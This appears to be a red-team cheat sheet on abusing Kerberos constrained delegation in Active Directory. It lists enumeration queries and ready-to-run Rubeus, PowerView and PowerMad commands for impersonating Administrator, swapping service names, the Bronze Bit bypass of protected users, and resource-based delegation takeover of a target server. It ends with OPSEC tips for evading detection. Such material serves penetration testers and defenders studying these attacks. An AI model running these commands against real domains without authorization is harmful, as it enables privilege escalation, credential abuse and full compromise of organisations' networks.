

# Constrained Delegation

- [Attack Variants](#attack-variants)
	- [Basic Constrained Delegation Exploitation](#Basic-Constrained-Delegation-Exploitation)
	- [Alternate Service Name Abuse](#alternate-service-name-abuse)
	- [Bronze Bit Attack](#bronze-bit-attack)
	- [Abusing Resource Based Constrained Delegation](#abusing-resource-based-constrained-delegation)
- [OPSEC](#opsec)
- [Resources](#resources)
- **Constrained Delegation** was soon released after unconstrained delegation as a safer means for services to perform Kerberos delegation. It aims to restrict the services to which the server can act on behalf of a user. It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.
- To impersonate the user, *Service for User (S4U)* extensions are used which provides two extensions:
	- **Service for User to Self (S4U2self)** - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the *TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION – T2A4D UserAccountControl* attribute.
	- **Service for User to Proxy (S4U2proxy)** - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by *msDS-AllowedToDelegateTo* attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.
	
- To perform the delegation, we ultimately need the TGT of the principal (**machine or user**) trusted for delegation. We can extract it from a machine (Rubeus dump) or request one using the NTLM / AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt`).
1. Enumerate users/computers with constrained Delegation
	- In Bloodhound: 
		- Users:
		```
		MATCH (c:User), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
		```
		- Computers: 
		```
		MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
		````
	- In Powerview:
		- Users: 
		```
		Get-DomainUser –TrustedToAuth
		```
		- Computers:
		```
		Get-DomainComputer –TrustedToAuth
		```
	- Using ADModule enumerate both computers and users: 
	```
	Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
	```
> NOTE: Constrained delegation can be configured on user accounts as well as computer accounts.  Make sure you search for both.

------------------------------------------------------

# Attack Variants

## Basic Constrained Delegation Exploitation

1. To perform the delegation, we ultimately need the TGT of the principal (machine or user) trusted for delegation.  We can extract it from a machine (Rubeus `dump`) or request one using the NTLM / AES keys (Mimikatz `sekurlsa::ekey`s + Rubeus `asktgt)`: 
```
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892......1211414
```
2. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to the allowed SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /ptt
```

## Alternate Service Name Abuse

- Another interesting issue in Kerberos is that the delegation occurs not only for the specified service on the target machine but for any service running on the machine under the same account name. There is no validation for the SPN specified in s4u. 
- This is huge as it allows access to many interesting services such as `CIFS` when the delegation may be for a non-intrusive service like `TIME`.
1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /altservice:cifs /ptt
```

## Bronze Bit Attack

- *CVE-2020-17049* - An attacker can impersonate users which are not allowed to be delegated. This includes members of the **Protected Users group** and any other users explicitly configured as sensitive and cannot be delegated.
- Patch is out on November 10, 2020, DC are most likely vulnerable until *February 2021*.
- `Patched Error Message` : `[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)`
1. Use `s4u2self` and `s4u2proxy` to impersonate a user who is protected from delegation: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /bronzebit /ptt
```
2. This attack can also be chained with the `altservice` attack to delegate to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /bronzebit /altservice:cifs /ptt
```

## Abusing Resource Based Constrained Delegation
- It's possible to gain code execution with elevated privileges on a remote computer if you have *WRITE* privilege on that computer's AD object.
- Resource-Based Constrained Delegation (RBCD) configures the backend server (e.g. MSSQL) to allow only selected frontend services (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.
- DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.
- In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the frontend service) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the backend service. This means that the frontend service needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.
- If we compromise a frontend service that appears in the RBCD property of a backend service, exploitation is the same as with constrained delegation above. This is however not too common.
- A more often-seen attack to RBCD is when we have *GenericWrite, GenericAll, WriteProperty, or WriteDACL* permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.
1. Create a new machine account using PowerMad: 
```
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)
```
2. Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target:
```
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid; $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"; $SDbytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDbytes,0)
```
3. Use PowerView to use our `GenericWrite` (or similar) priv to apply this SD to the target: 
```
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
4. Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target:
```
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt
```

-----------------------------------------------------

# OPSEC

- We should request TGTs with the AES keys (`/aes256:a561a175e395758550c912......`) rather than NTLM hash.
- Rubeus also has an `/opsec` argument which tells it to send the request without *pre-auth*, to more closely emulate genuine Kerberos traffic.

-----------------------------------------------------

# Resources

1. https://courses.zeropointsecurity.co.uk/courses/red-team-ops
2. https://www.pentesteracademy.com/activedirectorylab
3. https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
4. https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference


